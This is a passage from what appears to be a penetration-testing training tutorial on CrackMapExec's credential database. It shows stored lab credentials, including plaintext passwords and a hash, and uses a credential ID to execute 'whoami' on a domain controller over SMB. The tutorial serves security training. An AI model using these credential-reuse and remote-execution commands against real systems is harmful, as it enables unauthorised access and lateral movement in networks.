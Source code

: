 ```shell-session
$ cmedb
cmedb (default)(smb) > back
cmedb (default) > proto mssql
cmedb (default)(mssql) > creds

+Credentials---------+-----------+---------------+---------------+----------------------------------+
| CredID | Admin On  | CredType  | Domain        | UserName      | Password                         |
+--------+-----------+-----------+---------------+---------------+----------------------------------+
| 1      | 0 Host(s) | plaintext | DC01          | nicole        | Database2                        |

<SNIP>

| 6      | 0 Host(s) | hash      | INLANEFREIGHT | julio         | 64F12CDDAA88057E06A81B54E73B949B |
| 7      | 0 Host(s) | plaintext | INLANEFREIGHT | julio         | Password1                        |
+--------+-----------+-----------+---------------+---------------+----------------------------------+
```

{% hint style="info" %}
**Note:** If we see the Domain field with a computer, it means that we are using an MSSQL account.
{% endhint %}

### Using Credentials

We can also use credentials IDs from the database to execute CrackMapExec. We need to identify the credentials we want to use and determine which id is associated with the account. Let's use julio's credentials with id 4. To use a credential id instead of a username and password, we need to use the option `-id <CredID>`.

### **Using CredID to Interact with CrackMapExec**

```shell-session
$ crackmapexec smb 10.129.203.121 -id 4 -x whoami

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] INLANEFREIGHT\julio:Password1 (Pwn3d!)
SMB         10.129.203.121  445    DC01             [+] Executed command 
SMB         10.129.203.121  445    DC01             inlanefreight\julio
```

### Hosts Information

For `MSSQL` and `SMB`, we can also identify the computers to which we have gained access, their IP, domain, and operating system.

